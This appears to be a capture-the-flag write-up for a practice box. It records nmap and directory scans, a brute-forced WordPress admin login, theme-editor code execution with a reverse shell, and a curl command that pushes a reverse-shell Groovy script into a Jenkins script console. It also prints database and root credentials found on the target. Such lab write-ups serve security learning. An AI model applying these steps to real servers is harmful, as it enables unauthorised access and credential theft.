




# Recon

## Ports
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzpZTvmUlaHPpKH8X2SHMndoS+GsVlbhABHJt4TN/nKUSYeFEHbNzutQnj+DrUEwNMauqaWCY7vNeYguQUXLx4LM5ukMEC8IuJo0rcuKNmlyYrgBlFws3q2956v8urY7/McCFf5IsItQxurCDyfyU/erO7fO02n2iT5k7Bw2UWf8FPvM9/jahisbkA9/FQKou3mbaSANb5nSrPc7p9FbqKs1vGpFopdUTI2dl4OQ3TkQWNXpvaFl0j1ilRynu5zLr6FetD5WWZXAuCNHNmcRo/aPdoX9JXaPKGCcVywqMM/Qy+gSiiIKvmavX6rYlnRFWEp25EifIPuHQ0s8hSXqx5
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMFOI/P6nqicmk78vSNs4l+vk2+BQ0mBxB1KlJJPCYueaUExTH4Cxkqkpo/zJfZ77MHHDL5nnzTW+TO6e4mDMEw=
|   256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMlxubXGh//FE3OqdyitiEwfA2nNdCtdgLfDQxFHPyY0
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

## Web server
- Wordpress
- PHPMyAdmin

---- Scanning URL: http://10.10.115.245/ ----
==> DIRECTORY: http://10.10.115.245/blog/
+ http://10.10.115.245/index.html (CODE:200|SIZE:10918)
==> DIRECTORY: http://10.10.115.245/javascript/
==> DIRECTORY: http://10.10.115.245/phpmyadmin/
+ http://10.10.115.245/server-status (CODE:403|SIZE:278)
==> DIRECTORY: http://10.10.115.245/wordpress/

---- Entering directory: http://10.10.115.245/blog/ ----
+ http://10.10.115.245/blog/index.php (CODE:301|SIZE:0)
==> DIRECTORY: http://10.10.115.245/blog/wp-admin/
==> DIRECTORY: http://10.10.115.245/blog/wp-content/
==> DIRECTORY: http://10.10.115.245/blog/wp-includes/
+ http://10.10.115.245/blog/xmlrpc.php (CODE:405|SIZE:42)

---- Entering directory: http://10.10.115.245/javascript/ ----
==> DIRECTORY: http://10.10.115.245/javascript/jquery/

---- Entering directory: http://10.10.115.245/phpmyadmin/ ----
==> DIRECTORY: http://10.10.115.245/phpmyadmin/doc/
+ http://10.10.115.245/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)
+ http://10.10.115.245/phpmyadmin/index.php (CODE:200|SIZE:10525)
==> DIRECTORY: http://10.10.115.245/phpmyadmin/js/
+ http://10.10.115.245/phpmyadmin/libraries (CODE:403|SIZE:278)
==> DIRECTORY: http://10.10.115.245/phpmyadmin/locale/
+ http://10.10.115.245/phpmyadmin/phpinfo.php (CODE:200|SIZE:10527)

### Wordpress

Version 5.4.2
Found plugins:
- wp-emoji-release.min.js?ver=5.4.2

80/tcp open  http
| http-wordpress-users: 
| Username found: admin

Using 
[!] Valid Combinations Found:
 | **Username: admin, Password: my2boys**

[+] twentynineteen
 | Location: http://10.10.115.245/blog/wp-content/themes/twentynineteen/
 | Last Updated: 2020-12-22T00:00:00.000Z
 | Readme: http://10.10.115.245/blog/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 1.9

[+] twentyseventeen
 | Location: http://10.10.115.245/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://10.10.115.245/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.5

[+] twentytwenty
 | Location: http://10.10.115.245/blog/wp-content/themes/twentytwenty/
 | Last Updated: 2020-12-09T00:00:00.000Z
 | Readme: http://10.10.115.245/blog/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 1.6


### PHPMyAdmin
Version: 4.6.6


# Exploit

## Things that didn't work
- Mounting root or aubreanna with **runc**
- Escaping **docker** container (Jenkins)
- **Stealing credentials** from Jenkins (were already known)
- Trying already **known credentials on logins**
- PrivEsc with **ctr (containerd)**

## Wordpress RCE
Log in to wordpress
**Username: admin, Password: my2boys**

Manipulate theme:
https://book.hacktricks.xyz/pentesting/pentesting-web/wordpress#plugin-rce

Paste reverse_shell and get access



## Fetching DB login data
With www-data user, accessing wp-config.php:

```
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```   


## Gaining user access for user `aubreanna`

`su aubreanna` requires password

`sudo -l` for www-data requires password

There is a jenkins (2.250) server running under the aubreanna user:  
`aubrean+  1537  1504  1 16:23 ?        00:00:25 java -Duser.home=/var/jenkins_ho`

With a custom script, we can fuzz the password and get a crumb token
The credentials are `admin:spongebob` (i just guessed that the user was admin)


```
COOKIEJAR=$(mktemp)
CRUMB=$(curl -u "admin:spongebob" --cookie-jar "$COOKIEJAR" "localhost:8080/crumbIssuer/api/xml?xpath=concat(//crumbRequestField,%22:%22,//crumb)")
curl -X POST -u "admin:spongebob" --cookie "$COOKIEJAR" -H "$CRUMB" -d "script=$(cat ./reverse_shell_other.groovy)" "localhost:8080/script"
```

Unfortunately, Jenkins runs in a **VM** and we do not gain access to aubreanna:  


We obtain a password hash for the jenkins admin:
`$2a$10$MDKawySp3DRfUrrKFrBAe.o2D4qCzIJJaPpRfc3u2CR/w.NzbJjqe`
(it's spongebob)

Spongebob doesn't work for `su aubreanna`, btw

*Okay, here I asked the THM discord for a hint:

```
KimSchulzheute um 13:43 Uhr
maybe check files in the same place as where you might have found an important txt file on the wp related shell
to put it differently: you are almost at the end :slight_smile:
```
*

And indeed, running `find -type f -name *.txt 2>/dev/null` shows us that there is a */opt/note.txt* with the content:
```
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```


Done.